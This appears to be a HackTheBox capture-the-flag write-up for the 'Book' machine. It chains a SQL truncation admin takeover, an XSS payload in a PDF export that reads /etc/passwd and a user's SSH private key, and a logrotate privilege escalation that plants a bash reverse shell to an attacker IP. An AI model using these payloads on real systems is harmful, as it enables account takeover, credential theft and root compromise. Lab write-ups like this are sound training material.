

Book is a Linux machine rated Medium on HTB.

## Port Scan

`nmap -sC -sV 10.10.10.176`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see SSH and a webserver running.

## Enumerating Website

The index page shows a login+signup page for what seems like a library app.


### Directory Busting

Let's run dirbuster to look for more pages.


The `admin` path is worth a closer look. We find a similar login page but for administrators. 


### Logging In As User

Now, let's put on the hat of a user and sign up for an account to recon inside the membership area.

After clicking on the "SIGN UP" button and creating a new account, we can sign into the website.

After browsing around, the following pages are of interest:

* Upload page
* Contact page

The contact page leaked the **email address of the administrator**.

* admin@book.htb


## SQL Truncation Attack

The source code of the login+signup page contains a client-side validation function for the signup form.

`curl http://10.10.10.176`

```
<SNIP>
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
<SNIP>
```

This function checks for empty form fields and returns certain error messages. 

More importantly, the error messages revealed that **the email field should not be more than 20 characters**. This suggests that the backend might not be properly configured to handle inputs exceeding that length.

Since we've obtained the admin email address, let's try a [SQL truncation attack](https://resources.infosecinstitute.com/sql-truncation-attack/#gref) with the aim of getting access to an admin account on the website.

This is how the attack looks like in Burp:


How this SQL truncation attack works:

* First, the web app compares our email with the existing registered emails, it does not find clashes as we appended a series of spaces and a random string to it. 
* Hence, the database proceeds to INSERT.
* However, as the email column is configured to accept only 20 characters, it truncates the email to 20 characters, before storing it as "admin@book.htb      ". (With the trailing spaces, the attack should not have worked. But the PHP code that handles the admin login request is flawed. [Look at IppSec's video here to learn more.](https://www.youtube.com/watch?v=RBtN5939m3g&t=4825s))
* Now, the table contains a row with the admin email and a password of our choice (123456789).

Now, let's try to log from `/admin` with the following credentials:

* Email: admin@book.htb
* Password: 123456789

Yup, it works.


Alternatively, a simple python script does the job as well.

```
import requests

url = "http://10.10.10.176/index.php"
admin_email = 'admin@book.htb'
password = '123456789'
target_length = 20
padding = target_length - len(admin_email)
payload = admin_email + ' ' * padding + 'a'

post_data = {'name': 'goodyguy',
			'email': payload,
			'password': password }

x = requests.post(url, data = post_data)
```

## PDF Export Code Injection

Earlier, we spotted an upload function in the **Collections section of the user account**. Upload functions are always worth scrutinizing.



In the corresponding section in the administrator account, there is a PDF export function.


Clicking on the PDF link on the Collections row generates a PDF showing a table of uploaded books with the following:

* Book title
* Author
* A link to the uploaded file


Let's try to see if we can influence the exported PDF with HTML code.

In the **Book Title** field, key in the following.

`<b>test</b>`

After uploading a random file, the admin generated PDF looks like this.


The bolded "test" shows that HTML code is getting through to the PDF generator.

Let's try to send a more ambitious payload with the HTML `<script>` tag.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>`

This script ([from here](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)) uses a XHR object to send a GET request for the local file `/etc/passwd`, and writes it to the document.

With this payload, the generated PDF file shows us the passwd file.


We see that only root and reader have login shells. Let's modify the payload to get the private SSH key of `reader`.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write("<font size='1'>" + this.responseText + "</font>")};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>`

This payload has two main changes:

* Requests for the SSH key of reader instead of getting the passwd file
* Sets to a smallest font to ensure the SSH file fits the generated PDF

After sending this modifed payload, we generate the PDF again.

This time, the PDF contains the private SSH key of reader. We save the key into a file `readerkey`.

With the SSH key, we can log in as `reader` to get the **user flag**.

```
# ssh reader@10.10.10.176 -i readerkey
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)
<SNIP>
reader@book:~$ ls
backups user.txt
```

## Exploiting Logrotate

The home directory of `reader` contains a backup directory with log files. With writeable log files, we can consider exploiting logrotate.

Logrotate is a system utility that manages the automatic rotation and compression of log files.

How does it work:

* Under the create method, logrotate creates a new empty logfile in the log directory after rotating.
* If the log directory is swapped with a symlink pointing to another location, we can create a new file at that location.
* Because logrotate runs as root, it can write into any location.
* By default, the file is created with the same permissions as the original log file. 
* Since the attacker can write to the original log file, the attacker can also write to this newly created file.

A typical exploitation path for privilege escalation is to write a payload into `/etc/bash_completion.d` so that it will be executed when root logs in. 

(In this case, the relevant [shell startup file](http://www.linuxfromscratch.org/blfs/view/svn/postlfs/profile.html) is `/etc/profile.d/bash_completion.sh`.)

### Exploit Conditions

We need logrotate to **rotate our log file** to trigger our exploit. 

Psspy shows us that logrotate is being forced to rotate the logs every 5 seconds. So that works.

However, we cannot view the config file `/root/log.cfg` so we will have to guess what's inside.

```
2020/04/19 10:58:45 CMD: UID=0    PID=113349 | /usr/sbin/logrotate -f /root/log.cfg 
2020/04/19 10:58:45 CMD: UID=0    PID=113348 | /bin/sh /root/log.sh 
2020/04/19 10:58:45 CMD: UID=0    PID=113350 | sleep 5 
2020/04/19 10:58:50 CMD: UID=0    PID=113352 | /usr/sbin/logrotate -f /root/log.cfg 
2020/04/19 10:58:50 CMD: UID=0    PID=113351 | /bin/sh /root/log.sh 
2020/04/19 10:58:50 CMD: UID=0    PID=113353 | sleep 5 
```

Also, we need **root to log in** to trigger our payload. And oddly enough, checking with the `last` command, that's exactly what root seems to be doing every minute.

### Using Logrotten

[Logrotten](https://github.com/whotwagner/logrotten) is a software that helps us to exploit logrotate as described above.

First, we need to prepare a **bash script payload**.

Our `payloadfile` is a shell script that pushes a reverse bash shell to us if the user who logs in is root (userid is 0).

```
#!/bin/bash
if [ `id -u` -eq 0 ]; then (bash -i >& /dev/tcp/10.10.X.X/8888 0>&1 &); fi
```

Then, we use `logrotten` with the following syntax.

```
$ ./logrotten -p ./payloadfile  /home/reader/backups/access.log`
Waiting for rotating /home/reader/backups/access.log...
```

However, we get stuck here. Apparently, `access.log` is not being rotated.

Let's review what we know.

We know that logrotate is forced to run every five seconds, using the config file `/root/log.cfg`.

Unfortunately, we cannot view the config file.

Our logrotten attack is stuck at waiting for a rotation. This means that somehow the backup directory is not being rotated.

Possible reasons:

* `backups` directory is not included in `log.cfg`
* The `ifempty` directive is active, meaning logrotate will not rotate an empty file.

Assuming second reason is true, let's write something to `access.log` to trigger a rotate.

`echo test > access.log`

Yes, the rotate was triggered as logrotate did not find an empty log file this time.

```
reader@book:/tmp$ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```

As root is logging in every second, we got a reverse shell connection almost immediately.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.176] 45694
root@book:~# whoami
whoami
root
```

## Ending Thoughts

Both the SQL truncate attack and the code injection exploit are new to me. Although I've heard of the logrotate exploit, this was the first time I've had the chance to try it out. 

Overall, a very educational box for me.

**SQL Truncation Attack**

* https://resources.infosecinstitute.com/sql-truncation-attack/#gref
* https://docs.microsoft.com/en-us/archive/msdn-magazine/2006/november/sql-security-new-sql-truncation-attacks-and-how-to-avoid-them
* Explanation of why the SQL truncation works by IppSec - https://www.youtube.com/watch?v=RBtN5939m3g&t=4825s

**Logrotate and Logrotten**

* https://linux.die.net/man/8/logrotate
* https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation
